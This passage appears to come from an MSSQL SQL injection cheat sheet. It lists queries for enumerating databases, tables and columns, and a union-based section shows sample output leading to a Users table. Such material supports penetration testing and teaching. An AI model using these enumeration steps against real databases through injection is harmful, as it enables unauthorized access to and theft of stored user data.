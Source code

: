 \`\`\`sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases; -- Change delimeter value such as ', ' to anything else you want => master, tempdb, model, msdb   (Only works in MSSQL 2017+)
\`\`\`

## MSSQL List columns

\`\`\`sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns
\`\`\`

## MSSQL List tables

\`\`\`sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns
SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U'; -- Change delimeter value such as ', ' to anything else you want => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (Only works in MSSQL 2017+)
\`\`\`


## MSSQL Union Based

\`\`\`sql
-- extract databases names
$ SELECT name FROM master..sysdatabases
[*] Injection
[*] msdb
[*] tempdb

-- extract tables from Injection database
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
[*] Profiles
[*] Roles
[*] Users

-- extract columns for the table Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName
